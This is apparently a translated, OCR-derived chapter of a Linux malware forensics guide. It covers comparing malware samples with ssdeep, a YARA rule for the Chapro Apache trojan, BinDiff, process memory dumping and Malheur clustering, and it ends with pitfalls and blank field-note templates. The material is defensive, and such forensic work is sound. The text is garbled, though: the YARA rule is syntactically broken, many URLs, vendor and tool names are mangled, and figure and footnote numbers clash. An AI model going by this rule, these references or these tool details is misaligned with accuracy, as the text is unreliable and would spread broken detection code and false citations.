> 126 第一届通信系统与网络国际会议，2009.

# LINUX 系统恶意软件取证领域指南

| 研究者(s) | 研究内容 | 模型 |

|---|---|---|

| Bailey, Overheide, Anderson, Mao, Jahanian, & Nazario | 网络恶意软件的自动分类与分析128 | 基于行为的指纹提取和指纹聚类算法 |

| Yavvari, Tokhtabayev, Rangwala, & Stavrou | 使用行为组件的恶意软件表征129 | 行为映射 |

| Goldberg, Phillips, & Sorkin | 构建计算机病毒130 | 进化有向无环图 (phyloDAG) |

| Bayer, Comparetti, Hlauschek, Krueger, & Kirda | 可扩展的基于行为的恶意软件聚类131 | 执行轨迹/程序行为/聚类 |

| Khoo & Lio | 多样性的统一：用于恶意软件家族逆向工程和检测的进化启发技术132 | 对执行指令、内存修改和寄存器修改的执行捕捉分析 |

| Dumitras & Neamiu | 安全实验性挑战：恶意软件溯源与谱缘故事133 | 用于重构恶意软件谱缘和溯源的机器学习和时间序列分析 |

| Li, Gao, & Reiter | 聚类评估的挑战134 | 聚类（使用抄袭检测算法） |

| Jacob, Debar, & Filol | 恶意软件的行为检测：从调查到建立的分类法135 | 行为检测 |

在实践层面，可以采取许多调查步骤来比较性分析恶意代码物种的内容和功能。这些步骤包括：

- 内容触发的分段哈希处理 (CTPH)；

- 识别相似性的文本和二进制指示器；

- 比较函数流；

- 进程内存轨迹比较；

- 可视化；

- 行为特征分析与分类。

1288https://www.eecs.umich.com/techreports/cse/2007/CSE-TR-530-07.pdf.

129https://cs.mnu.edu/astavrou/research/Behavioral_Map.pdf.

130Journal.of Algorithms, 26(1), pp. 188–208. ISSN 0196-6774.

131https://www.ucsb.edu/~chris/research/code/nds009_cluster.pdf.

132https://www.clam.ac.uk/~wm26/phylogenetics/malware_phyloogenetics.pdf.

133https://www.ucr.edu/~neatium/pubmits/malware_neamiu_cset11.pdf

134https://www.uc.edu/~pengill/paper/hl10iad.pdf.

135https://www.researchgate.net/publication/220673370_Behavioral_detection_of_malware_from_a_survey_towards_an_established_taxonomy/file/9fcd5087b15824269.pdf.

# 第 6 章 恶意软件样本分析

## 内容触发的分段哈希 (CTPH)

- 回顾第 5 章，CTPH 为文件计算计算一系列随机大小的校验和，在内容相似但并非完全相同的文件之间建立关联。

- 在恶意软件分类和谱缘学的背景下，利用 CTPH 的文件哈希工具 `ssdeep` 可用于在身份清单中¹³⁶ 查询可疑文件。

- 如图 6.73 所示，一种扫描选项是在 Chapro Apache 模块样本的目录上使用递归（`–r`）、基础（`–b`）和“美化匹配”（`–p`）开关¹³⁷；其输出清晰地显示了文件之间的匹配情况。

## 相似性的文本和二进制指示器

- 数字调查人员可用于对恶意软件样本进行分类和谱缘分析的另一种方法是通过识别文件中嵌入的工迹——文本或二进制信息。可以辅助此项工作的工具是 `YARA`¹³⁸。

- `YARA` 是由 Hispems Systems 的 Victor Manuel Alvarez 开发的灵活恶意软件识别和分类工具。使用 `YARA`，数字调查人员可以创建规则，根据这些家族样本中包含的文本或二进制信息来描述目标家族¹³⁹。

- `YARA` 可以作为独立可执行文件从命令行调用，也可以通过 `yara-python` 扩展将其集成到数字调查人员的 python 脚本中¹⁴⁰。

- `YARA` 规则由以下组件组成：

    规则标识符：描述规则相关内容的规则“名称”。规则标识符区分大小写，可以包含任何字母数字字符（包括下划线），但不能以数字开头；标识符不能超过 128 个字符¹⁴¹。

    字符串定义：虽然规则不是强制要求的，但字符串定义是规则中定义特定样本的文本或十六进制实体的部分。字符串定义在规则条件中充当布尔值¹⁴²。

¹³⁶ 更多关于 `ssdeep` 的信息，请访问 http://ssdeep.sourceforge.net。

¹³⁷ 更多关于 Chapro 恶意软件的信息，请访问 http://www.symantec.com/security_response/writeup?docid=2012-12012-3441-99; http://contagiodump.blogspot.com/2012/12-dec-2012-linuxchapro-trojan-apache.html

¹³⁸ 更多关于 `YARA` 的信息，请访问 http://code.google.com/p/yara-project/

¹³⁹ `YARA` 手册版本 1.6。

¹⁴⁰ `YARA` 手册版本 1.6，第 22 页。

¹⁴¹ `YARA` 手册版本 1.6，第 3–4 页。

¹⁴² `YARA` 手册版本 1.6，第 4 页。

```
malwarelab@MalwareLab:~/home/malwarelab$ ssdeep -r -b Chapro/
```

```
vscl matches chapro (100)
vscl matches list (97)
vscl matches posting (99)
vscl matches sdf (96)
vscl matches ttt (100)
vscl matches Hikkm (97)
vscl matches z33 (100)
```

```
chapro matches vscl (100)
chapro matches list (97)
chapro matches posting (99)
chapro matches sdf (96)
chapro matches ttt (100)
chapro matches Hikkm (97)
chapro matches z33 (100)
```

```
list matches vscl (97)
list matches chapro (97)
list matches posting (99)
list matches sdf (96)
list matches ttt (97)
list matches Hikkm (96)
list matches z33 (97)
```

```
posting matches vscl (99)
posting matches chapro (99)
posting matches list (97)
posting matches sdf (96)
posting matches ttt (99)
posting matches Hikkm (99)
posting matches z33 (99)
```

```
sdf matches vscl (96)
sdf matches chapro (96)
sdf matches list (96)
sdf matches posting (96)
sdf matches ttt (96)
sdf matches Hikkm (96)
sdf matches z33 (96)
```

```
ttt matches vscl (100)
ttt matches chapro (100)
ttt matches list (97)
ttt matches posting (99)
ttt matches sdf (96)
ttt matches Hikkm (97)
ttt matches z33 (100)
```

```
Hikkm matches vscl (97)
Hikkm matches chapro (97)
Hikkm matches list (96)
Hikkm matches posting (99)
Hikkm matches sdf (97)
```

```
33 matches matches (1)
```

z33 matches vscl (100)

z33 matches list (97)

z33 matches posting (99)

z33 matches sdf (96)

z33 matches ttt (100)

z33 matches Hikkm (97)

```
FIGURE 6.73—使用 ssdeep 对目录

# 第 6 章 恶意软件样本

条件：规则的逻辑；如果查询规则的文件满足条件中的变量，则文件将被标记。

- 规则可以在文本编辑器中编写并保存为 ".lara" 文件。
`YARA` 规则从简单到复杂不等；强烈建议数字调查人员熟悉 `YARA` 手册（当前为 1.6 版本）以全面理解 `YARA` 的功能¹³。

在图 6.74 中，创建了一个用于识别和分类近期 Apache 模块“Chapro”的规则。该二进制文件包含用于生成有效 `YARA` 规则的工迹¹⁴⁴。

```
rule Chapro: Malicious Apache

{

strings:

a = "CHECK_BOT_USERAGENT"

b = "GEN_FILENAME_INJECT"

c = "INJECT_SNIP"

d = "SET_COOKIE_KEY"
```


```
e = "UPDATE_PART"

f = "FILENAME_PARTING"

g = "SIZE_ARRAY_TAGS_FOR_INJECT"

h = "INSERT_LOAD"

i = "REV_XOM"

j = "ARRAY TAGS FOR INJECT"

k = "CANARY_BAN_USERAGENT"

l = "ARRAY_BLACKLIST_URI"

m = "ARRAY_SE_REFERER"

n = "ARRAY_SUDOERS"

o = "ARRAY_BAN_PROC"

}
```
`condition:`  
`(a and b and c and d and e or s or f or g or h or i) and (j or k or l or m or n or o or $1 or $)`

FIGURE 6.74—用于检测 chapro.yara 的 YARA 规则

¹³ http://code.google.com/yara-project/downloads/detail?name=YARA%20User%27s%20Manual%201.6.pdf.

¹⁴⁴ http://www.symantec.com/security_response/writeup.jsp?docid=2012-122012-3441-99; http://contagiodump.blogspot.com/2012/12/dec-2012-linuxchapro-trojan.html

# LINUX 系统恶意软件取证领域指南

```
malwarelab@MalwareLab:~$ yara -r Chapro.y /home/malwarelab/Chapro

Chapro Malware Repository/Chapro/vsc1

Chapro Malware Repository/Chapro/chapro

Chapro Malware Repository/Chapro/list

Chapro Malware Repository/Chapro/posting

Chapro/sdf

Chapro Malware Repository/Chapro/ttt

Chapro Malware Repository/Chapro/Hikkm

Chapro Malware Repository/Chapro/z33
```

图 6.75—使用 YARA 查询扫描目录的结果。

## 其他值得考虑的工具

**相似性的文本与二进制特征指标**  
**恶意软件属性枚举与表征 (MAEC)**

MAEC 是一种标准语言，用于根据行为、产产物和攻击模式等属性，编码并通信关于恶意软件的高保真度信息（http://maec.mitre.org/）。

## 函数流图

使用 `ssdee` 和 YARA，可以根据文件内容对恶意代码样本进行分拣、分类和目录化。通过对样本进行 *diff*（difference 的缩写），可以对相似的恶意软件样本进行更深层次比较和探索。

**通过扩散**文件，数字取证人员可以识别样本之间的共同特征和功能，反之（可能更重要的是）也可以识别其差异。特别是通过这一过程，可以识别出演化因素，例如特征累积¹⁴⁵——即恶意软件中新增的功能和能力——并将其考虑用于建立系统发育关系。使用 IDA Pro 插件 BinDiff，¹⁴⁶，数字取证人员可以对两个目标执行样本进行对比。

- BinDiff 最强大的功能之一是图形 GUI，它能并排显示目标代码内容的对比流图。

> ¹⁴⁵ Hayes M., Walenstein A., Lakhotia A., Evaluation of Malware Phenomenology Modeling Systems Using Automated Variant Generation, Journal in Computer Virology, 2009, vol. 5, no. 4, pp. 335—343.
> ¹⁴⁶ 有关 BinDiff 的更多信息，请访问 http://www.zynamics.com/bindiff.html。

## 恶意软件样本分析

- BinDiff 根据代码块的数量、代码块之间的边数量以及对子函数的调用次数，为每个目标执行文件分配一个签名¹⁴⁷
- 一旦为两个目标执行文件生成了签名，就会通过无数函数匹配和基本块匹配算法创建匹配项¹⁴⁸
- BinDiff 为每个匹配的函数（如图 6.7 所示）以及整个 ELF 执行文件渲染相似性和置信度值¹⁴⁹

| IDA 视图-A | 次要未匹配 | 主未匹配 | 统计数据 | 匹配函数 | Hex1 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 相似性置信度变化 | EA 主名称 | EA 次要名称 | | 名称 | |
| 1.00 | 0.99 | 08048BC | int_proc | 08048BC | start |
| 1.00 | 0.99 | 08048E4 | __global_dtors_aux | 08048E4 | frame_dummy |
| 1.00 | 0.99 | 08048E4 | frame_dummy | 08048E4 | frame_dummy |
| 1.00 | 0.99 | 0804934 | int_dummy | 0804934 | int_dummy |
| 1.00 | 0.99 | 0804954 | main | 0804954 | main |
| 1.00 | 0.99 | 08048BAC | command | 08048BAC | command |
| 1.00 | 0.99 | 08048FC | _global_dtors_aux | 08048FC | _global_dtors_aux |
| 1.00 | 0.99 | 08040E4 | int_dummy | 08040E4 | int_dummy |
| 1.00 | 0.99 | 08043A8 | term_proc | 08043A8 | term_proc |
| 1.00 | 0.99 | 08043A8 | feof_GLIBC_2_0 | 08043A8 | feof_GLIBC_2_0 |
| 1.00 | 0.99 | 08043CC | _register_frame_info | 08043CC | _register_frame_info |
| 1.00 | 0.99 | 08043A0 | wrt_glibc_start | 08043A0 | wrt_glibc_start |
| 1.00 | 0.99 | 0804354 | strcmp_GLIBC_2_0 | 0804354 | strcmp_GLIBC_2_0 |
| 1.00 | 0.99 | 080435C | perror_GLIBC_2_0 | 080435C | perror_GLIBC_2_0 |
| 1.00 | 0.99 | 080435C | fprint_GLIBC_2_0 | 080435C | fprint_GLIBC_2_0 |
| 1.00 | 0.99 | 0804364 | fork_GLIBC_2_0 | 0804364 | fork_GLIBC_2_0 |
| 1.00 | 0.99 | 0804368 | accept_GLIBC_2_0 | 0804368 | accept_GLIBC_2_0 |

> 图 6.7-IDA 中的 BinDiff 插件

## 预处理

- 在调用 BinDiff 之前，将相应的执行样本加载到 IDA Pro 中。使用与目标执行文件相关的 IDA数据库 `.idb`。
- 在 IDA Pro 中，打开第一个目标样本的 IDA 数据库。
- 以图 6.7 为视觉参考，可以通过以下步骤调用 BinDiff：
  1. 进入 Edit（编辑）选项。
  2. 选择 Plugins（插件）菜单。
  3. 选择“BinDiff”插件。
  4. 选中 BinDiff 插件后将出现 Diff 框。点击菜单中的“Database”（数据库）框；这将打开文件管理器。
  5. 选择第二个 IDA 数据库。

⁷ Zymatics BinDiff 3.2 手册，第 6–7 页。  
⁸ 有关 BinDiff 匹配策略的详情，请参考 BinDiff 3.2 手册。  
⁹ Zymatics BinDiff 3.2 手册，第 11–12 页。

| 列 | 描述 |
| :--- | :--- |
| Selection | All Items |
| Identifier | items |
| Code | C |
| Data | B |
| struct... | V |
| Underline | |
| Operated type | |
| Segments | |
| Functions | |

- 加载第二个目标 IDA 数据库后，IDA 中会出现四个额外的标签页：Matched Functions（匹配函数）、Statistics（统计数据）、Primary Unmatched（主未匹配）和 Secondary Unmatched（次要未匹配）。

## 在 BinDiff GUI 中显示流图

- 识别感兴趣的函数后，右键点击并选择“Visual Flowgraphs”（可视化流图），如图 6.78 所示；这会调用 BinDiff 图形。

| 置信度 | 变化 | EA 主名称 | 名称主 | EA 次要名称 | 名称次要 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 1.00 | 0.99 | 08048BC | int_proc | 08048BC | start |
| 1.00 | 0.99 | 08048E4 | __global_dtors_aux | 08048E4 | frame_dummy |
| 1.00 | 0.99 | 08048E4 | frame_dummy | 08048E4 | frame_dummy |
| 1.00 | 0.99 | 0804934 | int_dummy | 0804934 | int_dummy |
| 1.00 | 0.99 | 0804954 | main | 0804954 | main |
| 1.00 | 0.99 | 08048BAC | command | 08048BAC | command |
| 1.00 | 0.99 | 08048FC | _global_dtors_aux | 08048FC | _global_dtors_aux |
| 1.00 | 0.99 | 08040E4 | int_dummy | 08040E4 | int_dummy |
| 1.00 | 0.99 | 08043A8 | term_proc | 08043A8 | term_proc |
| 1.00 | 0.99 | 08043A8 | feof_GLIBC_2_0 | 08043A8 | feof_GLIBC_2_0 |
| 1.00 | 0.99 | 08043CC | _register_frame_info | 08043CC | _register_frame_info |
| 1.00 | 0.99 | 08043A0 | wrt_glibc_start | 08043A0 | wrt_glibc_start |
| 1.00 | 0.99 | 0804354 | strcmp_GLIBC_2_0 | 0804354 | strcmp_GLIBC_2_0 |
| 1.00 | 0.99 | 080435C | perror_GLIBC_2_0 | 080435C | perror_GLIBC_2_0 |
| 1.00 | 0.99 | 080435C | fprint_GLIBC_2_0 | 080435C | fprint_GLIBC_2_0 |
| 1.00 | 0.99 | 0804364 | fork_GLIBC_2_0 | 0804364 | fork_GLIBC_2_0 |
| 1.00 | 0.99 | 0804368 | accept_GLIBC_2_0 | 0804368 | accept_GLIBC_2_0 |

> 图 6.78-IDA 中的 BinDiff 插件

- 识别感兴趣的函数后，BinDiff GUI 在双窗格界面中显示相应执行文件的流图，允许调查人员同时查看目标流图，如图 6.79 所示。

## Linux 系统恶意软件取证领域指南

- 在执行目标标本后，在进程分析工具中定位新生成的进程；一旦通过进程名和 PID 识别，即使用进程转储工具获取与进程关联的内存。
- 例如，在图 6.80 所示，使用 `pcat`¹⁵⁰ 选择目标进程、进行转储并保存到磁盘。

```bash
malwarelab@MalwareLab:/home/malwarelab/Process-Memory#./pcat 5755 > pcat.5755
```

> **图 6.80**-使用 `pcat` 转储进程内存

- 对每个感兴趣的标本执行相同的进程内存收集方法；确定与进程内存转储相关的文件大小和哈希值。如图 6.81 所示，用 `pcat` 导出的两个进程具有不同的 MD5 哈希值。

```bash
malwarelab@MalwareLab:/home/malwarelab/Process-Memory$ md5deep pcat.5755 pcat.5791
```
```
f56d88bb7a98b3dc04637e6600bfc /home/malwarelab/Process-Memory/pcat.5755 42110d1de64bc976e9f310293c43701 /home/malwarelab/Process-Memory/pcat.5791
```

> **图 6.81**-相应进程内存的 MD5 哈希值

- 使用 `ssdeep` 查询递归进程内存文件，以确定相似性¹⁵¹
- 如图 6.82 所示，对目标标本应用带有递归 `-r`、裸 `-b` 和“漂亮匹配” `-p` 的 `ssdeep`：

```bash
malwarelab@MalwareLab:/home/malwarelab/$ ssdeep -r -p -b Gummo/ gummol matches gummol(26) gummol2 matches gummol(96)
```
```bash
malwarelab@MalwareLab:/home/malwarelab/$ ssdeep -r -p -b Process-Memory/ pcat.5791 matches pcat.5755 (100) pcat.5755 matches pcat.5791 (100)
```


> **图 6.82**-使用 ssdeep 查询目标标本和相应的进程内存转储

¹150 有关 pcat 的更多信息，请访问 http://www.porcupine.org/forensics/tct.html。

¹51 有关 ssdeep 的详细讨论，请参阅第 5 章。

## 第 6 章恶意软件标本分析

### 其他可考虑的工具

进程内存获取
有许多工具可用于获取运行进程的内存：

- `memfetch`: 由 Michal Zalewski 编写，`memfetch` 将内存映射转储到单独的文件以供分析 (http://freecode.com/projects/memfetch)。
- `gcore`: 获取运行进程内存内容的传统方法是使用 `gcore` 转储进程的核心镜像（core image），它是 Linux 和 UNIX 发行版的原生实用程序。
- `Shortstop`: 一个转储进程内存和关联元数据的工具 (https://google.com/shortstop/)。
- `Process Dumper (pd_v1.lx)`: 由 Tobias Klein 开发，Process dumper 是免费的闭源软件，与 Memory Parser (http://www.trapkit.de/forensic/pd/index.html) 以及 http://www.trapkit.de/research/mnp/index.html) 工具配合使用。
- `memgrep`: 一个替换或转储运行进程及核心文件内容的工具 (http://freecode.com/projects/memgrep)。进一步的讨论和对比可以在本第 6 章末尾的工具箱以及配套网站 www.malwarefieldguide.com/LinuxChapter6.html 中找到。

在执行文件（在本例中为 Gummo 后门标本）之前，这些文件的相似性得分为 96 (100)。相反，在查询与目标恶意软件标本相关的内存文件时，文件的相似性得分为 100，表明这些标本曾被执行过。

### 可视化

如第 5 章所述，二进制文件内容的可视化为数字调查人员提供了关于文件中数据分布的快速参考。除了识别混淆外，比较多个可疑文件的数据模式也可以作为基于数据分布可视化来识别潜在相似文件的方法。

- 可以通过 BinVis，¹⁵² 使用多种可视化方案查看目标恶意软件执行文件。尽管 BinVis 设计用于解析 Windows 可移植执行文件 (PE) 文件和 ELF 文件，但目前

> ¹⁵² 有关 BinVis 的更多信息，请访问 http://code.google.com/p/binvis/。目前 BinVis 无法在 Linux 中原生安装和运行；必须在 Linux 分析系统上安装 WINE¹¹³

- 要选择执行文件进行分析，请使用 BinView 工具栏并选择“File” = “Open”。
- 一旦将执行文件加载到 BinView，通过“View”选项选择数据可视化方案来查看文件。
- 除了十六进制查看器外，BinView 还有七种不同的数据可视化方案：
  - `Byte Plot（字节图）`: 将每个位映射到像素。
  - `RGB Plot（RGB 图）`: 与 Byte Plot 类似，使用红、绿、蓝。
  - `Bit Plot（位图）`: 将每个位映射到像素。
  - `Attractor Plot（吸引子图）`: 基于混沌理论。
  - `Dot Plot（点图）`: 显示字节序列。
  - `Presence Plot（存在图）`: 数据的一种版本。
  - `Cloud Plot（云图）`: 数据的生成。

BinView 的强大功能是页面之间的交互。BinView 的另一个新颖方面是页面转换。

- 在图 6.8 所示的示例中，检查了三个恶意标本。

### 行为分析

除了比较运行时数据外，行为分析也可以作为一种方法。在编写时，不存在用于 ELF 文件行为分类的框架。

¹¹³ 有关 WINE 的更多信息，请访问 http://www.wine.org/。
¹⁵⁴ 有关 Boxerkit 的更多信息，请访问 http://www.symantic.com/security_response/2007-07。
¹⁵⁵ 有关 SSHDoor 的更多信息，请访问 http://www.symantic.com/security_response/2013。

## 恶意软件标本分析

- 分析可以使用 `Malheur`，¹⁵⁶ 框架进行分类。`Malheur` 可以通过标准编译程序编译适用于 Linux、Macintosh OS 和 OpenBSD 平台的命令行工具¹⁵⁷
- `Malheur` 处理记录并编译为恶意软件指令集 (MIST) 格式的数据集——这并非为了人类可读，而是专门用于机器学习和数据挖掘的恶意软件行为泛化。
- 数据集可以作为目录或压缩包 (`.tar.gz`, `.zip`, `.pax`, `.cpio`) 编译到 `Malheur` 中分析。数字调查人员可以通过转换 ThreatTrack SecurityAnalyzer/CWSSbox 的报告创建自定义数据集¹⁶⁰

¹⁵⁶ 有关 `Malheur` 的更多信息，请访问 http://www.mlsec.org/malheur/; http://honeyblog.org/junkyard/paper-malheur-2009.pdf（基于机器学习的恶意软件行为分析，Rieck K, Trinius P M, & Holt T. Journal of Computer Security, 19(3), 2011）。
¹⁵⁷ http://www.mlsec.org/malheur/install.html。

# Linux 系统恶意软件取证领域指南

- 曼海姆大学（University of Mannheim）可靠分布式系统实验室在其 Mwanalysis 网站上维护了一个数据集仓库。161
- 原型提取：识别并提取子集原型，这些原型是某些同质行为组的典型特征，并代表了大型报告语料的整体情况。162
- 行为聚类：识别包含相似行为的报告组（聚类），从而发现独特的恶意软件类型。163
- 行为分类：对预先处理过的报告聚类通过分类进行进一步分析，或将未知行为分配给已知的恶意软件组。通过这种方法，`Malheur` 可以识别并对独特的恶意软件变体进行分类。164
- 增量分析：`Malheur` 可以校准为以“块”的形式处理（聚类和分类）报告，从而减少资源需求。这种分析方法对于 `Malheur` 的长期实施特别有益，因为可以针对蜜罐传感器获取的常规恶意软件进行 `Malheur` 自动分析。165
- 可以将数据集输入 `Malheur` 并使用以下步骤进行处理：

1. 调用 `malheur`
2. 使用 `-o`（输出）开关并指定分析输出文件的名称（例如，在图 6.84 中，输出文件为 `out.txt`）；执行该操作。
3. 选择操作即应用于目标数据集的分析类型。操作包括：

| 操作 | 结果 |
| :--- | :--- |
| distance | 计算数据集的距离矩阵 |
| prototype | 确定一组代表目标数据集的原型 |
| cluster | 对数据集进行聚类 |
| classify | 对数据集进行分类 |
| increment | 对数据集报告进行增量分析 |
| protodist | 计算原型的距离矩阵 |

161 http://pi1.informatik.uni-mannheim.de/malheur/
162 Automatic Analysis of Malware Behavior using Machine Learning, p. 8; Rieck, K. (2011). Malheur Version 0.5,0, User Manual, p. 2.
163 Rieck, K. (2011). Malheur Version 0.5,0, User Manual, p. 2.
164 Rieck, K. (2011). Malheur Version 0.5,0, User Manual, p. 2.
165 Rieck, K. (2011). Malheur Version 0.5,0, User Manual, p. 2.

# 第 6 章 恶意软件样本分析

4. 增量地应用分析操作。例如，在进行分类之前必须对数据集进行聚类。同样，在聚类时，Malware 会自动提取原型以进行聚类分析，如图 6.84 所示

```
malware@malwareLab:~/Malware-Repository/5 malheur -v -out txt cluster

20090804_mist-tar.gz

############################################

Extracting Features from '20090804_mist-tar.gz' 100.0% 00m 05s

############################################

388,732 feature vectors with distance 31,430 extracted.

Clustering vectors with maximum distance 5. 100.0% 00m 39s

############################################

104,707 prototypes with 8,326 extracted.

Clustering distances (548628 pair, 3,960). 100.0% 00m 05s

############################################

548,628 distances computed.

Clustering linkage with minimum distance 0.95. 100.0% 00m 00s

############################################

Saving 35 feature vectors to /home/malwarelab/malheur/prototypes.zfa.

Saving 100 feature vectors to /home/malwarelab/malheur/rejected.zfa.

Exporting clusters to 'out.txt'.
```


图 6.84 使用 Malheur 对数据集进行聚类

5. 生成的分析结果保存为 Malheur 目录下的文本文件，默认路径为 `~/.malheur`。

6. 文本结果可以使用自定义 Python 脚本（`dynamic_threadgraph.png`; `dynamic_treemap.png`; `static_threadgraph.png` 和 `static_treemap.png.py`）进行可视化，这些脚本是为 Malheur 以及相关的研究项目开发的¹166

# 结论

- 仔细考虑并规划恶意软件实验室环境，以确保分析各个阶段的成功。建立一个灵活、可调整且可恢复的环境，以捕获目标样本执行轨迹和感染周期的整体。
- 为了全面了解目标恶意软件样本，通常会结合使用动态和静态分析技术。去混、提取嵌入伪造、识别触发事件以及理解执行和网络轨迹可能需要反复交替使用动态和静态技术。对分析过程中采取的步骤维护详细文档。请参考本章末的现场笔记（Field Notes）获取文档指南。

¹⁶⁶ Python 脚本可以在 `http://mwananalysis.org/inmas/backend/visualisering` 找到。

- 在动态分析过程中，使用被动和主动监控工具以及技术来收集数字特征和追踪证据。此类证据结合动态和静态分析的结果进行综合检查，将阐明可疑程序的性质、目的和功能。
- 编目录恶意软件样本并关联其行为。
- 使用动态和静态分析理解恶意软件的影响。
- 使用数字取证和工具识别恶意软件。
- 虽然在本文编写时还没有针对 Linux 的已知恶意文档文件，但趋势显示，随着 Linux 份额的增加，攻击者正日益开发复杂的恶意软件。因此，恶意文档文件可能近在眼前。

# 第 6 章 恶意软件样本分析

## 应避免的陷阱

### 在检查样本前建立基准

- 在开始检查恶意软件之前建立基准。
- 基准对于识别恶意软件所做的更改至关重要。
- 基准允许你识别对系统的更改。

### 仅依赖框架或对恶意样本进行在线沙箱分析

- 对目标或“相似”恶意样本的在线沙箱分析可以提供帮助，但在所有情况下不应视为结论。
- 可靠来源对相似恶意样本的第三方分析是非常宝贵的资源，并可能预测在特定样本中发现的内容。
- 虽然在整个调查过程中应考虑这些关联信息，但它们不能替代独立分析。

### 将敏感文件提交到在线沙箱

- 不要向在线沙箱提交案件核心的恶意软件样本（即披露调查会对案件造成不可修复损害的情况），以防提醒攻击者。
- 通过将恶意软件样本提交给第三方网站，你将不再控制该样本及其相关数据。

### Linux 系统恶意软件取证领域指南

### 恶意软件样本的错误执行

- 恶意软件样本的执行通常取决于文件。与可以通过其他工具（如监控器）调用的 ELF 格式文件不同，

### 不完整的证据重建

- 虽然自动化恶意软件分析框架可以对识别出的恶意代码提供见解（在本文编写时还没有处理 ELF 的框架），但不应依赖它们来揭示可疑程序的目的和功能。
- 反之，样本的自动分析没有发现感染迹并不意味着它是无害的。

# 第 6 章 | 恶意软件样本分析

精明的攻击者通常会进行广泛的开源研究和搜索引擎查询，以确定其恶意软件是否已被发现。
提交到在线恶意软件分析服务的样本结果是公开的且易于发现的——许多门户甚至带有搜索功能。因此，在提交目标恶意样本后，攻击者可能会发现其恶意软件和非法行为已被发现——从而导致证据被毁，并可能损害你的调查。

### 未能调整实验室环境以确保完整执行轨迹

- 如果数字调查人员没有根据样本的轨迹需求调整实验室环境，恶意代码样本与受害者系统及外部网络资源之间的行为和交互可能无法暴露。
通过调整恶意软件实验室环境并提供所需的资源，数字调查人员可以进行轨迹重建，并重现样本成功完成感染生命周期所走的路径和模式。
延续感染生命周期并调整实验室环境以满足轨迹的过程被称为“轨迹链”（`trajectory chaining`）；请务必记录轨迹的每一步以及相关步骤。
为了便于轨迹链，请适应嫌程序发出的顺序请求。

### 在执行恶意软件样本期间未检查证据动态

- 不要在此未考虑证据动态整体性的情况下就做出调查结论。
取证分析的首要目标之一是重建犯罪周围的事件。犯罪重建中常用的三种分析技术是：时间分析、功能分析和关系分析。
时间分析常见的形式是时间线（`time line`）。
功能分析的目标是理解在恶意软件事件环境中可以哪些哪些，以及它在环境中的实际行为（而非它**具备**的操作）。
关系分析涉及研究恶意软件组件之间如何交互，以及涉及恶意软件事件的各种系统之间如何相互关联。

在主动监控以及运行后的证据重建期间，可以获取目标恶意样本产生的证据动态——例如检查被动监控数据以及收集的数字特征和痕迹证据。

### 在目标恶意样本执行并从混淆代码中提取后未检查嵌入制品

- 如果样本在执行（并可能从混淆代码中提取）后未经过深度检查，可能会遗漏目标恶意样本中的关键信息。未能收集这些信息可能会对调查结果以及后续调查方向产生不利影响。
- 从混淆代码中移除恶意样本后，从文件内容提取提取价值信息，这可能为恶意软件的性质和目的提供价值见解——例如字符串、符号、文件元数据、文件依赖、ELF 结构和内容。
- 为了收集有助于继续分析恶意代码样本的其他重要线索，考虑对去混淆样本进行完整的文件分析（包括数字病毒学过程）。

## 现场笔记：动态分析

| 案例编号: | 日期/时间: |
| :--- | --- |
| 调查员: | |

| 恶意样本标识符 | 获取日期: |
| :--- | --- |
| 获取样本来源: | |

| 文件名: | 大小: | |
| :--- | --- | --- |
| | MD5: | |
| | SHA1: | |
| | 文件相似性索引 (FSI) 匹配: | |

| 在在线哈希库中识别： | |

| 样本类型: | 文档文件 | 文件外观: | 内容可视化: |
| :--- | --- | --- | --- |
| 可执行文件 | MS Office-Excel | | |
| 可执行且可链接 | MS Office-PPT | | |
| 格式 (ELF) | 其他 | | |
| 库文件 | | | |
| 内核模块 | | | |
| 其他 | | | |

| 反病毒特征码: | 厂商: | 提交至沙箱: |
| :--- | --- | --- |
| 签名: | | Norman 是/否 |
| | | BitBlaze 是/否 |
| | | Anubis 是/否 |
| | | HostExpert 是/否 |
| | | GFI (Sunbelt CWSandbox) 是/否 |
| | | Furca 是/否 |
| | | Sandbox 是/否 |
| | | Joe Sandbox (file-analyzer.net) 是/否 |
| | | Mwataluba 是/否 |
| | | WeProtect Check.a 是/否 |
| | | QosScan 是/否 |

| 提交至在线病毒扫描引擎: | 是否识别为恶意? | 通过在线 URL 沙箱提交的文件: |
| :--- | --- | --- |
| VirTotal | 是否识别为恶意？是/否 | Dumppeck 是否识别为恶意？是/否 |
| RorScan | 是否识别为恶意？是/否 | WePwe 是否识别为恶意？是/否 |
| Metascan | 是否识别为恶意？是/否 | AVG 是否识别为恶意？是/否 |
| Malware | 是否识别为恶意？是/否 | VirtualTotal 是否识别为恶意？是/否 |
| | | Joe Sandbox 是否识别为恶意？是/否 (url-analyzer.net) |

| 实验室环境: | | | |
| 主机 1: | 主机 2: | 主机 3: |
| :--- | --- | --- | --- |
| 虚拟化: | 操作系统: | 操作系统: | 操作系统: |
| VirtualBox | SP/补丁级别: | SP/补丁级别: | SP/补丁级别: |
| IP 地址: | IP 地址: | IP 地址: | |
| 目的: | 目的: | 目的: | |

| 文件名: | 日期/时间: |
| :--- | --- |
| 调查员: | |

### 执行轨迹概述

| 轨迹概述 | 环境/调整/步骤 |
| :--- | --- |
| 产生的 DNS(s): | 模拟 |
| 修改的文件: | 软件 |
| 生成的: | 简单 |
| Web 流量: | 修改 |
| SMTP 活动: | 使用 |
| IRC 流量: | 使用 |
| 其他网络活动: | 使用 |

| 网络连接和活动 | 环境/调整/步骤 |
| :--- | --- |
| 协议:TCP/UDP/其他: | 模拟 |
| 本地端口:状态:ESTABLISHED/LISTEN/SYN SENT/SYN RECEIVED/TIME_WAIT/其他: | 软件 |
| 外部连接地址/外部连接端口/进程 ID: | 简单 |
| 系统路径: | 修改 |
| 关联数字特征和痕迹证据: | 使用 |

## 进程活动

## 第 6 章 恶意软件样本分析

### 系统调用

## 数字印象与痕迹证据

### 文件系统活动：目录和文件的创建、修改、删除

## /proc/cpid/ 文件系统活动：创建、修改、删除

## LINUX 系统恶意软件取证现场指南

## 交互与操控

## 第 6 章 恶意软件样本分析

## 现场笔记：静态分析

## LINUX 系统恶意软件取证现场指南

## 去混淆

## 嵌入产物

## 依赖项

## 符号

## 文件结构与内容

# Linux 系统恶意软件取证现场指南

| “受害者”系统基准 | 执行情况 |
| --- | --- |
| 已拍摄系统“快照”：是 否 | 简单执行 |
| 日期/时间 | 安装监控： |
| 快照名称： | 使用的工具： |
| 使用的工具： | 系统调用监控： |
| | 使用的工具： |

# 执行轨迹

# 网络轨迹：活动摘要

